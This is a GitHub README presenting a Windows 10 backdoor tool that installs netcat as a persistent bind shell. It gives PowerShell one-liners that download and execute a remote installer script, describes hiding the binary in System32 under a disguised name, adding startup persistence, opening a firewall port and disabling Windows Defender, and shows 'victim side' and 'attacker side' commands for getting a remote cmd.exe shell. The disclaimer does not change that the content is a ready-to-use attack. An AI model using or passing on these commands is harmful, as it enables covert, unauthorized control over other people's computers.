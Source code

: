 # PermanentRevershell-win10backdoor
 "PermanentRevershell: A potent Windows 10 backdoor providing persistent access and full system control. Explore its capabilities today!"
![image](https://github.com/alariordas/PermanentRevershell-win10backdoor/assets/80034759/82e62466-3dff-4a75-b90d-51602e27e753)

**Disclaimer: Use Responsibly**

This tool is provided for educational and legitimate security testing purposes only. The author (insert your name or username) does not condone or endorse any unauthorized or malicious use of this tool. Any actions and activities carried out using this tool are the sole responsibility of the user.

By downloading, using, or distributing this tool, you acknowledge and agree to use it in compliance with all applicable laws and ethical guidelines. Improper or unlawful use of this tool is strictly prohibited, and the author will not be held responsible for any consequences arising from such actions.

Please exercise caution and always obtain proper authorization before using this tool on systems or networks that you do not own or have explicit permission to test.

Use this tool responsibly and for legitimate purposes only.

**Note:** It is important to be aware of and comply with the laws and regulations governing cybersecurity and ethical hacking activities in your jurisdiction. Unauthorized access or malicious activities may result in legal consequences.





# Netcat Auto-Installer for Windows

This script automates the installation of Netcat on Windows systems. Netcat is a versatile networking utility that can be used for various purposes, including network testing and security assessments. Please use this script responsibly and only on systems and networks for which you have proper authorization.

## Features

- Downloads and extracts the Netcat ZIP file to a temporary location.
- Moves the `nc.exe` binary to the `System32` directory, enhancing its stealth.
- Sets up Netcat to run at system startup for persistent access.
- Enables a firewall rule to allow incoming connections on port 455.
- Removes temporary files after successful installation

## Prerequisites

Before using this script, ensure that you have:

- Windows operating system.
- Administrator privileges.
- Windows Defender desactivated during the execution of the script
- PowerShell enabled for script execution. You can do this by running:

```powershell
Set-ExecutionPolicy Unrestricted -Scope CurrentUser -Force
```
Or Press `Windows + R` and type:
```powershell
powershell -nop -ep bypass -c IEX(IWR Set-ExecutionPolicy Unrestricted -Scope CurrentUser -Force -UseBasicParsing);
````

## Usage

### Automated Installation

1. Press `Windows + R` to open the Run dialog.
2. Type ```powershell.exe  IEX(IWR https://raw.githubusercontent.com/alariordas/PermanentRevershell-win10backdoor/main/ncinstaller.ps1 -UseBasicParsing);``` and press `Ctrl + Enter` to open PowerShell with Administrator privileges.

```powershell
powershell.exe  IEX(IWR https://raw.githubusercontent.com/alariordas/PersistentReverseShell-Win10Backdoor/main/ncinstaller.ps1 -UseBasicParsing);
```

The script will be executed automatically. However, please note that it may not work on all systems. If you encounter issues, you may need to adapt the script to the target system's properties.
This will start the process if in the victim side it's not working 
```powershell
powershell.exe -NoExit -ExecutionPolicy Bypass -Command "Start-Process 'C:\Windows\System32\msnmsgr.exe' -ArgumentList '-Ldp 455 -e cmd.exe' -NoNewWindow"
```

### In the Attacker side
Execute this command in the terminal, replace `explample.com` with the victim ip or domain
```cmd
netcat -z -v example.com 455
```
